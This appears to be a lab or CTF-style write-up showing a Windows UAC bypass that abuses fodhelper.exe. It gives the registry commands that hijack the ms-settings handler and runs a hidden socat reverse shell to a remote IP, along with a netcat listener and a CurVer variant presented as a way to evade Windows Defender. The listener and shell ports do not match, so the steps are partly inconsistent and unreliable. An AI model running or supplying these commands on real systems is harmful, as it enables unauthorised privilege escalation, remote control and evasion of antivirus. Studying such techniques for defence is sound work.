 `The key takeaway here is to find the target application's deginated registry key that handles its file associations. You can do that usually by running the target app and checking through process-monitor or by checking Microsoft official docs for the target app`

_Case study: Fodhelper_ Fodhelper.exe is one of Windows default executables in charge of managing Windows optional features, including additional languages, applications not installed by default, or other operating system characteristics. Like most of the programs used for system configuration, fodhelper can auto elevate when using default UAC settings so that administrators won't be prompted for elevation when performing standard administrative tasks. While we've already taken a look at an autoElevate executable, unlike msconfig, fodhelper can be abused without having access to a GUI.

Fodhelper.exe uses the below registry key to handle its file associations

```
HKCU\Software\Classes\ms-settings\Shell\Open\command
```

Given that, We set the required registry values to associate the ms-settings class to a reverse shell. \[1]

```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
```

\[2] Below we uses socat.exe to trigger a reverse shell connection

```
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.10.38.63:4545 EXEC:cmd.exe,pipes"
```

\[3] We need to create an empty value called **DelegateExecute** for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.

```
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f
```

\[4]

```
nc -lvp 4444
```

And lastly we run the app

```
fodhelper.exe
```

If an AV (Windows Defender) alert is raised then follow the steps above until you reach step \[3] and instead type the below command

```
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".pwn" /f
```

And then execute

```
fodhelper.exe
```
